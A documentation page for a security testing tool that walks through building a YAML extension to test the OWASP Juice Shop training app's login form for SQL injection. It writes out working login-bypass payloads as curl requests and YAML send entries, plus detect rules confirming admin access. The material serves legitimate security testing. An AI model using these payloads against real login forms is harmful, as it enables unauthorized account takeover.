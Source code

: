 [link-meta-info]:           ../create-extension.md#structure-of-the-meta-info-section
[link-send-headers]:        ../phase-send.md
[link-using-extension]:     ../using-extension.md
[link-app-examination]:     app-examination.md

[doc-send-phase]:           ../phase-send.md
[doc-detect-phase]:         ../detect/phase-detect.md

[link-juice-shop]:          https://www.owasp.org/index.php/OWASP_Juice_Shop_Project



#   Creation of Nonmodifying Extension

The extension described in this document will not modify an incoming baseline request to inject some payload into. Instead, the two predefined test requests will be sent to the host that is specified in the baseline request. These test requests contain payloads that could lead to exploitation of the SQLi vulnerability in the [“OWASP Juice Shop”][link-juice-shop] target application's login form.


##  Preparations

It is highly recommended to [investigate the target application's behavior][link-app-examination] prior to creation of the FAST extension.


##  Constructing the Extension

Create a file that describes the extension (e.g., `non-mod-extension.yaml`) and populate it with the required sections:

1.  [**The `meta-info` section**][link-meta-info].

    Prepare the description of the vulnerability that the extension will try to detect.
    
    * vulnerability header: `OWASP Juice Shop SQLi (non-mod extension)`
    * vulnerability description: `Demo of SQLi in OWASP Juice Shop (Admin Login)`
    * vulnerability type: SQL injection
    * vulnerability threat level: high
    
    The corresponding `meta-info` section should look as follows:
    
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (non-mod extension)'
      - description: 'Demo of SQLi in OWASP Juice Shop (Admin Login)'
    ```
    
2.  **The `send` section, the [Send phase][doc-send-phase]**

    There are two payloads that should be sent as an `email` parameter value alongside any `password` value in order to exploit the SQL injection vulnerability in the target application:
    
    * `'or 1=1 --`
    * `admin@juice-sh.op'--`
    
    You can craft two test requests, each containing
    
    * the `email` parameter with one of the values described above and 
    * the `password` parameter with an arbitrary value.

    It is sufficient to use just one of these requests to test our example target application (OWASP Juice Shop).
    
    However, having a set of several prepared test requests may be useful when conducting the security testing of a real application: if one of the requests can not exploit a vulnerability anymore thanks to updates and improvements in the application, then there will be other test requests available that may still exploit the vulnerability because of other payloads in use.

    The request with the first payload from the list above is similar to this one:
    
    ```
    curl --request POST --url http://ojs.example.local/rest/user/login \
         --header 'content-type: application/json' \
         --header 'host: ojs.example.local' \
         --data '{"email":"'\''or 1=1 --", "password":"12345"}'
    ```

    The second request looks like the first one:

    ```
    curl --request POST --url http://ojs.example.local/rest/user/login \
         --header 'content-type: application/json' \
         --header 'host: ojs.example.local' \
         --data '{"email":"admin@juice-sh.op'\''--", "password":"12345"}'
    ```

    Add the `send` section containing the descriptions of these two test requests:
    
    ```
    send:
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"''or 1=1 --","password":"12345"}'
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"admin@juice-sh.op''--","password":"12345"}'
    ``` 
    
    !!! info "A note about the `Host` header" 
        The `Host` header can be omitted in these requests because it does not influence the exploitation of this particular SQLi vulnerability. A FAST node will automatically add the `Host` header extracted from an incoming baseline requests.
        
        Read [here][link-send-headers] about how the Send phase handles request's headers.

     3.  **The `detect` section, the [Detect phase][doc-detect-phase]**.
    
    The following conditions indicate that the user authentication with administrator's rights was successful:
    
    * The presence of the shopping cart identifier parameter with the `1` value in the response body. The parameter is in JSON format and should look like this:
    
        ```
        "bid":1
        ```
    
    * The presence of the user email parameter with the `admin@juice-sh.op` value in the response body. The parameter is in JSON format and should look like this:
    
        ```
         "umail":"admin@juice-sh.op"
        ```
    
    Add the `detect` section that checks whether the attack was successful according to the conditions described above.
    
    ```
    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```
    
!!! info "Escaping the special symbols"
    Remember to escape the special symbols in the strings.

##  Extension File

Now the `non-mod-extension.yaml` file contains a complete set of the sections required for the extension to operate. The list of the file's contents is shown below:

??? info "non-mod-extension.yaml"
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (non-mod extension)'
      - description: 'Demo of SQLi in OWASP Juice Shop (Admin Login)'

    send:
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"''or 1=1 --","password":"12345"}'
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"admin@juice-sh.op''--","password":"12345"}'

    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```

##  Using Extension

For detailed information about how to use the created expression, read [this document][link-using-extension].